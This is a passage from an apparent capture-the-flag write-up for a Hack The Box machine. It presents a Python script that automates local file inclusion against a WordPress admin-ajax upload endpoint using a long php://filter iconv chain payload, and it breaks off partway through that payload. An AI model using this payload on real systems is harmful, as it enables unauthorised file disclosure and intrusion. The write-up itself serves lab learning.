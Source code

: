 <img src="../assets/gif/rubbing-hands-eric-cartman.gif" alt="yay" width="450">

But unfortunately we don't have the entire file, we only get partial files back because of the limited heap size of PHP

But we can always try to get some informations, so i wrote a python script to automate the LFI :

```python
import requests
import os

def upload_file_read(file_path):
    url = "http://blog.bigbang.htb/wp-admin/admin-ajax.php"

    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }

    payload = (
        "action=upload_image_from_url&id=1&url="
        "php://filter/convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|"
        "convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|"
        "convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|"
        "convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|"
        "convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|"
        "convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|"
```